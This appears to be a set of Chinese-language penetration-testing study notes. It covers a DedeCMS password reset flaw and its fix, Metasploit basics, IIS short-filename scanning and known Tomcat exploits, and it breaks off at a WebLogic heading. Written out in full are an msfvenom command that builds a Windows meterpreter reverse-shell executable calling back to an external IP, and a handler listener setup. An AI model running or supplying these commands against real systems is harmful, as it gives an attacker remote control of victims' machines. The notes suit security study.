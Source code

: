 DeDecms是使用用户最多的PHP类cms系统，此次该CMS的任意密码重置漏洞通过遍历UID的方式获取返回的静态gourl跳转地址，而CMS未对更改密码的跳转地址进行参数隐藏导致更改密码的临时密码被泄露，泄露以后构造URL传入临时密码可以不需要任何验证即可更改任意用户密码。

##### dedecms任意密码重置漏洞的修复方案

手机验证设置6位，且数字字母组合

验证码限制次数

验证码时间验证

##### joomla CMS是什么

##### 常见的网站服务器容器

iis，apache，nginx，tomcat，lighttpd

##### msf用法

msfconsole，search xxx，use xxx，show options，set rhost、rport，lhost，lport，run

###### 制作反弹shell文件

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=2x.94.50.153 LPORT=4433 -f exe -o 4433.exe
```

###### 监听端口

```shell
msfconsle
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 2xx.94.50.153
msf5 exploit(multi/handler) > set LPORT 4433
msf5 exploit(multi/handler) > run
```

##### 如何检查iis短文件名漏洞

1：iis_shortname_scan.py脚本检测

python IIS_shortname_Scan.py http://www.target.com/

2：nmap -p 80 --script http-iis-short-name-brute 192.168.0.1/24

##### tomcat漏洞利用

Tomcat后台弱口令上传war包，tomcat管理弱口令页面getshell。

Tomcat的PUT的上传漏洞(CVE-2017-12615) ，tomcat put方法任意文件上传CVE-2017-12615。

Tomcat反序列化漏洞(CVE-2016-8735) ，tomcat反序列化漏洞CVE-2016-8735。

Tomcat 样例目录session操控漏洞，Apache Tomcat examples directory vulnerabilities(Apache Tomcat样例目录session操纵漏洞。

Tomcat本地提权漏洞(CVE-2016-1240)，Tomcat本地提权漏洞分析与防御。

##### weblogic默认密码
